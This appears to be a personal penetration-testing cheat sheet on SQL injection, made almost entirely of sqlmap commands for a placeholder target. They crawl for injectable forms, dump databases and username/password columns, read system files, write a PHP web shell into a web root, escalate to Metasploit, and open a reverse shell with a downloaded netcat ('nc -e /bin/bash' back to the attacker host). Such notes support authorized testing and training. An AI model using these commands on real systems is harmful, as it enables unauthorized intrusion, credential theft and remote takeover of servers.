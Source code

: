 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

#### Crawl and discover SQL injections
```bash - kali
sqlmap -u http://$TARGET --forms --batch --crawl=10 --cookie=PHPSESSID=rqh1ck98suududihja1sl4ljck --level=5 --risk=3
```

#### os-shell with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-shell --fresh-queries
```

Choose an architecture, if you get "no output", redo, try other architecture.

Kali:
```bash - kali
cp /usr/bin/nc .
```

```bash - target
wget "http://$KALI/nc" -O /tmp/nc
```

```bash - target
chmod +x /tmp/nc
```

![[rlwrap]]

```bash - target
/tmp/nc -e /bin/bash $KALI 443
```

#### sql-shell
In this example, we enumerate the tables with sqlmap
```bash - kali
proxychains sqlmap -u "$TARGET?id=1" -p job --sql-shell
```

```SQL - target
select user,password from mysql.user;
```

#### Password Cracking
```bash - kali
sqlmap -u $TARGET?id=1 --password --batch
```

#### File System Access
```bash - kali
sqlmap -u $TARGET?id=1 --privileges --batch
```

```bash - kali
sqlmap -u $TARGET?id=1 --current-user --batch
```

Test the following with /etc/passwd if Unix target.
```bash - kali
sqlmap -u $TARGET?id=1 --file-read=/xampp/htdocs/index.php --batch
```

Test the following with [[Port 22 - SSH  ~#Generate key upload to victim]].
```bash - kali
sqlmap -u $TARGET?id=1 --file-write=/root/Desktop/shell.php --file-dest=/xampp/htdocs/shell.php --batch
```


#### Show databases with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --dbs --thread 5
```

![[Pasted image 20220226224727.png]]

#### Dump Databases

Retrieve DBs:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 --dbs
```

Dump entire Database:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db --dump
```

Retrieve Tables:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db --tables
```

Dump entire Table:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db -T banner_posts --dump
```

Retrieve Columns:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db -T banner_posts --columns
```

Dump Columns data:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db -T banner_posts -C id,stats,title --dump
```

#### Show tables with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D information_schema --tables
```

```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D mysql --tables
```

```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D  vperformance_schema --tables
```

```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D sys --tables
```

```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D zm --tables
```

#### Show columns with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D zm --T users --columns
```

#### Dump column data with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D zm -T Users -C Username,Password --dump
```

#### SQLMAP to Metasploit
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-pwn --thread 5
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
